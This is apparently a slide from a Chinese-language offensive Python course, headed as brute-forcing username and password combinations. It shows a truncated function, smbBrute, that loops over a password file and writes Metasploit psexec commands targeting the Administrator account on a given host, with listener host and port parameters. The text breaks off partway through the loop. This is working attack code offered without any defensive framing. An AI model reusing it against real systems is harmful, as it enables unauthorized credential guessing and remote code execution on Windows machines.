

针对用户名和密码组合暴破
def smbBrute(configFile, tgtHost, passwdFile, lhost, lport):
	username = 'Administrator'
	pF = open(passwdFile, 'r')
	for password in pF.readlines():
		password = password.strip('\n').strip('\r')
		configFile.write('use exploit/windows/smb/psexec\n')
		configFile.write('set SMBUser ' + str(username) + '\n')